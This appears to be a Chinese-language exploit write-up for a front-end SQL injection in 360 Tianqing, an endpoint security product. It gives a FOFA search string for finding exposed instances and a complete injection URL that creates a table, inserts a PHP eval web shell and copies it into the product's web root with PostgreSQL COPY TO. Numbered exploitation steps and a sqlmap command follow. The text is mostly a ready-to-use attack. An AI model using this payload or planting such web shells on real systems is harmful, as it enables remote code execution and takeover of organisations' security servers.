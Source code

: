 # 360天擎 rptsvcsyncpoint 前台SQL注入

## 漏洞描述

天擎 存在SQL注入,攻击者可以通过漏洞上传木马

## 漏洞影响

```
天擎
```

## FOFA

```
title="360新天擎"
```

## 漏洞复现

```plain
注入写shell:
https://192.168.24.196:8443/api/dp/rptsvcsyncpoint?ccid=1';create table O(T TEXT);insert into O(T) values('<?php @eval($_POST[1]);?>');copy O(T) to 'C:\Program Files (x86)\360\skylar6\www\1.php';drop table O;--  


利用过程:
1. 通过安装包安装的一般都有root权限，因此该注入点可尝试写shell
2. 通过注入点，创建一张表 O
3. 为 表O 添加一个新字段 T 并且写入shell内容
4. Postgres数据库 使用COPY TO把一个表的所有内容都拷贝到一个文件(完成写shell)
5. 删除 表O
```



使用命令

```plain
sqlmap -u https://xxx.xxx.xxx.xxx:8443/api/dp/rptsvcsyncpoint?ccid=1 --dbms PostgreSQL
```



![image-20220209200650958](./images/202202092006296.png)

